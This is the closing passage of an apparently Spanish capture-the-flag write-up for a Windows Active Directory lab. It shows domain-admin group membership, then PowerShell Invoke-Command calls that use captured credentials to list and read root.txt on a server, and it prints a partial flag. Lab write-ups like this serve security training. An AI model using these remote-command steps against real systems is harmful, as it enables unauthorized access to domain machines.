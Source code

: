 ```console
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Domain Admins                          Group            S-1-5-21-1786406921-1914792807-2072761762-512  Mandatory group, Enabled by default, Enabled group             
ACUTE\Managers                               Group            S-1-5-21-1786406921-1914792807-2072761762-1111 Mandatory group, Enabled by default, Enabled group             
ACUTE\Site_Admin                             Group            S-1-5-21-1786406921-1914792807-2072761762-2102 Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Denied RODC Password Replication Group Alias            S-1-5-21-1786406921-1914792807-2072761762-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

Así que ahora teóricamente podemos acceder a la flag de `root`.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls C:\Users\Administrator\Desktop}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls C:\Users\Administrator\Desktop}


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        06/09/2024     17:37             34 root.txt                           atsserver                         


PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\Administrator\Desktop\root.txt}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\Administrator\Desktop\root.txt}
7e9839b552472...
```

Happy Hacking! 🚀
